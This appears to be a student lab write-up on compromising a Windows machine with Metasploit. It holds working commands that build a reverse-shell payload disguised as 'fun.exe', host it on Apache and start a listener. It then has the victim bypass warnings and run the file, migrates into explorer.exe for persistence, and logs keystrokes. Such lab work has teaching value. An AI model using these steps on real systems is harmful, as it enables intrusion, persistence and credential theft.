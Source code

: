 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
![Screenshot 2024-10-09 085547](https://github.com/user-attachments/assets/99b0b242-a362-4d79-8191-cf1ef85e180f)
Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![Screenshot 2024-10-09 085632](https://github.com/user-attachments/assets/84fd2b37-b819-4075-abae-f8788d96cff2)

copy the fun.exe into the apache /var/www/html folder
![Screenshot 2024-10-09 085644](https://github.com/user-attachments/assets/d43e0241-2413-4cd1-9bb1-dabc3c61ae9a)

Start apache server
sudo systemctl apache2 start
![Screenshot 2024-10-09 085653](https://github.com/user-attachments/assets/7b9fd2df-c645-4a26-b1da-688a2891cbb0)

Check the status of apache2
![Screenshot 2024-10-09 085706](https://github.com/user-attachments/assets/f863dca1-2918-4155-829c-465e4ba57032)

Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler
![Screenshot 2024-10-09 085750](https://github.com/user-attachments/assets/e1dec2c0-9c2d-41b0-bfc6-c05616b2c78d)

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Screenshot 2024-10-09 085805](https://github.com/user-attachments/assets/35c636ed-5624-4623-aac5-e7f1bfee917b)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![Screenshot 2024-10-09 085815](https://github.com/user-attachments/assets/4b598374-f9b1-4f69-a559-37a6bc9653d8)
To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![Screenshot 2024-10-09 085831](https://github.com/user-attachments/assets/906a9fa0-5f80-4416-b240-eadea5b0c54e)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![Uploading Screenshot 2024-10-09 085846.png…]()

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![Screenshot 2024-10-09 085900](https://github.com/user-attachments/assets/4486eb39-404d-4f3c-a624-3ff490a588b1)
keyscan_dump	Shows the keystrokes captured so far
![Screenshot 2024-10-09 085915](https://github.com/user-attachments/assets/64540148-e668-4845-b4ac-17ca220ed8b2)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
